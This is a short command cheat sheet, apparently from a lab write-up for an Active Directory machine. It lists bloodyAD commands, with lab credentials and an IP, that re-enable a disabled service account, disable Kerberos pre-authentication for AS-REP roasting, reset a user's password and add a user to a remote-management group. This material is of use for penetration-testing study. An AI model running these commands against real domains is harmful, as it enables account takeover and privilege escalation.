 Enable Account:

```bash
bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.129.199.135 -u "p.rosa" -p Rosaisbest123 -k remove uac SVC_SQL -f ACCOUNTDISABLE
```

Enable ASREP on an account:

```bash
bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.129.199.135 -u "p.rosa" -p Rosaisbest123 -k add uac SVC_SQL -f DONT_REQ_PREAUTH
```

Change users password:

```bash
bloodyAD -d domain.local --host x.x.x.x -u username -p username set password target_user new_password
```

Add user to a group:

```bash
bloodAD -d domain.local --host x.x.x.x -u username -p username add groupMember 'Remote Management Users' user_to_add
```


